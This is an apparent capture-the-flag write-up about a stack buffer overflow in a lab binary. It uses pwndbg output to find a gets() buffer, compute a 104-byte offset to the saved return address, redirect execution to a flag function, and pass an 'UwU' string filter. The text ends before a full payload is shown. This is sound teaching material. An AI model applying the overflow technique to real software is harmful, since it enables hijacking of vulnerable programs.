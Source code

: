 That's because to jump to `UwU_main` from `main`. `call` instruction is used
```json
0x0000000000400954 <+99>:    call   0x400844 <UwU_main>
```
and `call <addr>` instruction pushes `$rip` to the top of the stack before jumping to `<addr>`. 

#### Therefore, after the function call:
```json 
00:0000│ rsp 0x7fffffffdc08 —▸ 0x400959 (main+104) ◂— mov edi, 0x400bb0
01:0008│ rbp 0x7fffffffdc10 ◂— 1 (base pointer of prev func)
XX:YYYY| [Stuff in the previosu stack (top)]
```
the address `0x7fffffffdc08` points to `0x400959` i.e. our return address back to next instruction of main. 

And `0x7fffffffdc08` is exactly what we wish to overwrite. It's win if we get into the `UwU_flag` by overwriting `0x400959` as the address of the start instruction of `UwU_flag`. 

To find the starting address of `UwU_flag`, pretty easy, we can get the assembly code with instruction addresses of the program easily by doing `disassemble UwU_flag` in `pwndbg`.

```json
pwndbg> disassemble UwU_flag
Dump of assembler code for function UwU_flag:
   0x00000000004007d6 <+0>:     push   rbp
```

## So, how do we get to  `0x7fffffffdc08` to overwrites it?

- calculate the offset from start of buffer, which goes upwards in memory, to `0x7fffffffdc08`.

#### where exactly does the buffer (our input) starts?
From the assembly code of `UwU_main`
```json 
   0x40086e <UwU_main+42>    lea    rax, [rbp - 0x60]               RAX => 0x7fffffffdba0 —▸ 0x7ffff7f97ff0 (_IO_file_jumps) ◂— 0
   0x400872 <UwU_main+46>    mov    rdi, rax                        RDI => 0x7fffffffdba0 —▸ 0x7ffff7f97ff0 (_IO_file_jumps) ◂— 0
   0x400875 <UwU_main+49>    mov    eax, 0                          EAX => 0
 ► 0x40087a <UwU_main+54>    call   gets@plt                    <gets@plt>
        rdi: 0x7fffffffdba0 —▸ 0x7ffff7f97ff0 (_IO_file_jumps) ◂— 0
        rsi: 0x7ffff7f9a643 (_IO_2_1_stdout_+131) ◂— 0xf9b710000000000a /* '\n' */
        rdx: 0
        rcx: 0x7ffff7eb6210 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
```

we can see that the address [rbp - 0x60] is passed into `gets` as the first argument via `rdi`

Therefore, out input starts at $rbp-0x60 i.e. `0x7fffffffdba0`

Offset = `0x7fffffffdc08` - `0x7fffffffdba0`  = `0x68` = `104` bytes from start of our input to the address that we want to overwrite

But before that, we need to pass some filters

### first filter UwU
```c
	char *ptr = strstr(buffer, "UwU");	
	if (ptr != NULL && strstr(ptr, "UwUUwU") != NULL)
```
checks whether there's string - "UwU" and "UwUUwU" in players' input  
Therefore, the first very bytes is a no-brainer - `b'UwUUwU'`which would be able to pass both checking. ~~I have been testing to bypass each checkings using pwndbg~~
